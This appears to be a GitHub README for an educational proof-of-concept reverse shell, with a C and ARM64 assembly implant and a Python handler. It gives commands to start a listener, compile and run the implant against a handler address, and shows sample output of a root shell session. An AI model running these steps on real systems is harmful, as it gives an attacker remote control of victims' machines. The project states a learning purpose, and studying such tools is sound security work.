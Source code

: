 # Reverse-Shell
A proof-of-concept reverse shell (written in C and ARM64/AARCH64 Assembly) and its handler (written in Python) for learning and educational purpose. The reverse shell is intended for x86 & x64 Linux based systems. However, by [using a cross-compiler](https://jensd.be/1126/linux/cross-compiling-for-arm-or-aarch64-on-debian-or-ubuntu), it can also be repurposed for ARM64/aarch64 Linux systems as well. Also, an ARM64 assembly code template has also been provided.

# Usage
This PoC is made of two components, a handler and the implant/reverse shell code. The implant/reverse shell code is written in C and ARM64/AARCH64 assembly code. This was done to -
- Learn more about reverse shell development, in C and ARM64 Assembly
- Have a reverse shell code that can be turned into shellcode

First, we execute the handler to listen on a particular address and port. The implant is also compatible with netcat
```bash
python3 python-handler.py 127.0.0.1 4444
```
The implant is also compatible with netcat, so it can also be used to manage a reverse shell connection.
```bash
nc -nvlp 127.0.0.1 4444 -s 127.0.0.1
```

Then, we compile the implant/reverse shell C code, and execute it by providing it with handler's listening address and port using the following steps -
```bash
# Compiling As C Code
gcc -o implant implant.c
./implant 127.0.0.1 4444
```

In order to use the ARM64 assembly code, use the following steps -
```bash
# Compiling As ARM64 Assembly Code
git clone https://github.com/pdoffl/Reverse-Shell.git
cd Reverse-Shell/ARM64-Assembly-Code
python3 python-implant_arm64-asmGenerator.py 127.0.0.1 4444
as -o implant_arm64.o implant_arm64.s
ld -o implant_arm64 implant_arm64.o
./implant_arm64
```
The steps above use a python script to embed Handler's IPv4 address and Port in the ARM64 Assembly template, and the final assembly code can be then assembled to create a binary that will connect to the handler and provide a shell when executed.

You'll see the connection on handler's end
```bash
[+] Handler Started On 127.0.0.1:4444
[+] Listening For Connections ...
[+] Connection Received From 127.0.0.1:58902
id
uid=0(root) gid=0(root) groups=0(root)
```

# Features
- Uses multithreaded handler to simultaneously handle receiving output from reverse shell, while sending commands from user
- Implant/reverse shell uses dup2() call to duplicate STDIN, STDOUT, STDERR across the network socket used to communicate with handler

# To Do
- [ ] Refined error handling on handler and implant's end
- [ ] Implement encryption for communication between handler and implant/reverse shell

# References
- https://pymotw.com/2/socket/tcp.html
- https://www.w3schools.com/python/python_try_except.asp
- https://docs.python.org/3/library/socket.html
- https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html
- https://www.idc-online.com/technical_references/pdfs/information_technology/Pairs_in_Python.pdf
- https://www.w3schools.com/python/python_user_input.asp
- https://www.geeksforgeeks.org/python-convert-string-to-bytes/
- https://g3tsyst3m.github.io/sockets/Create-your-own-Netcat-using-Python/
- https://anubissec.github.io/Creating-a-Reverse-Shell/

